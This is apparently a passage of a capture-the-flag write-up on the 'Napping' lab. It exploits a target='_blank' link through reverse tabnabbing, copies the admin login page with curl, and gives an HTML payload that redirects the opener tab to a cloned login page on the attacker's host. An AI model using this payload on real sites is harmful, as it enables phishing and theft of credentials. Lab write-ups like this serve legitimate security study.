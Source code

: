 
<h3>napping.thm/register.php, napping.thm/login.php and napping.thm/welcome.php</h3>

<p>

- registered <code>researcher</code> : <code>password</code><br>
- logged in<br>
- receivedc a welcome message</p>

<img width="1126" height="480" alt="image" src="https://github.com/user-attachments/assets/8cb1d882-2a0f-4bb1-a1c7-6d353b9819f5" />

<h3>link</h3>
<p>

- submitted google´s link</p>

<img width="1125" height="406" alt="image" src="https://github.com/user-attachments/assets/c091747a-f5f6-4867-8275-b29b2d5955e7" />

<p>

- clicked <code>Here</code>.<br>
- was redirected to Google</p>

<h3>Source Code of <code>napping.thm/welcome.php</code></h3>
<p>

- identified target = 'blank'
</p>

<img width="1118" height="424" alt="image" src="https://github.com/user-attachments/assets/8397663a-6ba7-4c5e-810d-11221c10efcb" />


<h3>HackTricks</h3>
<p>https://hacktricks.boitatech.com.br/pentesting-web/reverse-tab-nabbing</p>

<img width="1341" height="583" alt="image" src="https://github.com/user-attachments/assets/c154caa4-bdd6-459d-8f85-75c296fbab3a" />

<img width="1890" height="864" alt="image" src="https://github.com/user-attachments/assets/8250caaf-dcc5-46e7-9153-c7e7bd6411a0" />


<h3>login.html</h3>
<p>It is a copy of <code>napping.thm/admin/login.php</code></p>


```bash
:~/Napping# curl http://TargetIP/admin/login.php -o login.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1158  100  1158    0     0   141k      0 --:--:-- --:--:-- --:--:--  141k
```


<h3>hi.html</h3>

```bash
<!DOCTYPE html>
<html>
 <body>
  <script>
     window.opener.location = "http://10.10.36.146:8000/login.html";
  </script>
 </body>
</html>

```
